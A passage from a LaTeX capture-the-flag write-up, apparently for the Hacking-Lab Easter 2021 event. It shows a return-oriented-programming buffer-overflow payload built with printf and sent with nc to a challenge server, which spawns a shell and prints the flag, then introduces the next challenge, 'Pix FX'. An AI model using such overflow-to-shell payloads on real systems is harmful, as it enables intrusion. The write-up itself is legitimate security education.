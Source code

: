 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
\begin{itemize}
\item overflow the buffer with 40 characters
\item add the address 0x4007bf to jump to the code to load RDI
\item add the address 0x6010b1 -- the address of \verb+/bin/sh+
\item add the address 0x4007cc -- the address of the call to \verb+system+
\end{itemize}

This gives us the shell:
\begin{verbatim}
$ printf "AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDEEEEEEEE\xbf\x07\x40\x00\x00  \
    \x00\x00\x00\xb1\x10\x60\0\0\0\x00\x00\xcc\x07\x40\0\0\0\0\0\nls\n  \
    cat flag\n">payload
$ nc 46.101.107.117 2112 < payload
Welcome! Please give me your name!
> Hi AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDEEEEEEEE@, nice to meet you!
challenge2
flag
ynetd
he2021{s41l0r_r0p_f0r_pr0f1t}
\end{verbatim}

... and now we also understand that the rops are not a typo!


\hypertarget{he21.30}{%
\section{HE21.30 Pix FX}
  \label{he21.30}}
\begin{marginfigure}
    \includegraphics[width=50mm]{images/challenge30.jpg}
\end{marginfigure}

\noindent Hey there! We have our fancy new Pix FX service online!

\noindent Try it out!

\url{http://46.101.107.117:2110}

Note: The service is restarted every hour at x:00

\subsection{Show Hint (free)}
\begin{itemize}
\item egg
\end{itemize}
\end{document}
